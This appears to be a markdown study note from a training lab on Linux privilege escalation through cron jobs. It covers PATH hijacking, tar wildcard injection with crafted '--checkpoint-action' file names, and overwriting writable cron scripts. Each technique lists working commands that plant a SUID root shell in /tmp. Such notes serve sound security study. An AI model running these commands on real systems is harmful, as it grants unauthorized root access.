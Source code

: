 #Linux #PrivEsc #Cron #ScheduledTasks #BinaryPaths #Wildcards #Overwrites 

- ==Overwrites is most common (3rd one down)

# Cron (Path)
#BinaryPaths 
## **Detection**
Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “`PATH`” variable.
	- Note jobs running every minute or few minutes
	- `* * * * * root script.sh`
	- `5 * * * * root /usr/local/bin/script.sh`
- Can also use `systemctl list-timers --all`

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

---

# Cron (Wildcards)
#Wildcards
## **Detection**

Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “`/usr/local/bin/compress.sh`”
3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (`*`) used by ‘`tar`’.
	- Can manipulate wildcards!
## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
```
2. `chmod +x /home/user/runme.sh`
3. `touch /home/user/--checkpoint=1`
4. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
5. Wait 1 minute for the Bash script to execute.
6. In command prompt type: `/tmp/bash -p`
7. In command prompt type: `id`

---

# Cron (Overwrites)
#Overwrites

## ﻿Detection
Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “`overwrite.sh`”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

---

# CTF Challenge

